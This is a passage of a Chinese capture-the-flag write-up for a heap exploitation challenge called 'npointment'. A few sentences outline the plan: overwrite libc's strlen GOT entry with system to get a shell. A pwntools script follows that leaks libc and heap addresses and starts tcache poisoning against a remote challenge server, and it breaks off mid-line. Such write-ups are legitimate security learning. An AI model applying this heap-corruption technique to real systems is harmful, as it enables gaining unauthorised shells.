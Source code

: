 不过任意写还是好办的。

考虑用到了`strdup`，里面调了`libc.plt.strlen->libc.got.strlen`。

打`libc.got.strlen->libc.sym.system`，然后`add content=/bin/sh\x00`，也就有`system("/bin/sh")`。

感觉开沙盒也能打的样子，但是最后还是没加。

```Python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("./npointment")
s=remote("8.130.35.16",58001)
libc=ELF("../dist/libc.so.6")

def add(content):
    s.sendlineafter(b"$ ",b"add content="+content)

def show():
    s.sendlineafter(b"$ ",b"show aaa")

def delete(idx):
    s.sendlineafter(b"$ ",b"delete index="+str(idx).encode())

if __name__=="__main__":
    pause()
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"A"*0x40)
    add(b"\x21"*0x2d0)
    add(b"A"*0x40)
    show()
    delete(0)
    add((b"event=event=").ljust(0x40,b"a")+b"\x00"*(0xe+7)+flat([
        0,0x471,
    ]))
    delete(2)
    add(b"a"*0x40)
    add(b"a"*0x500)
    show()
    s.recvuntil(b"#3:")
    s.recvuntil(b"Content: ")
    libc.address=u64(s.recv(6).ljust(8,b"\x00"))-(0x7fc5ee65f0f0-0x7fc5ee460000)
    success(hex(libc.address))

    add(b"a"*0x50)
    delete(0xa)
    show()
    s.recvuntil(b"#3:")
    s.recvuntil(b"Content: ")
    heap_xor_key=u64(s.recvline()[:-1].ljust(8,b"\x00"))
    heap_base=heap_xor_key<<12
    success(hex(heap_base))

    pause()
    strlen_got=libc.address+0x1fe080
    add(b"a"*0x50)
    delete(6)
    delete(2)
    delete(0)
    add((b"event=event=").ljust(0x40,b"a")+b"\x00"*(0xe+7+0x10)+flat([
        (strlen_got-0x40)^heap_xor_key
```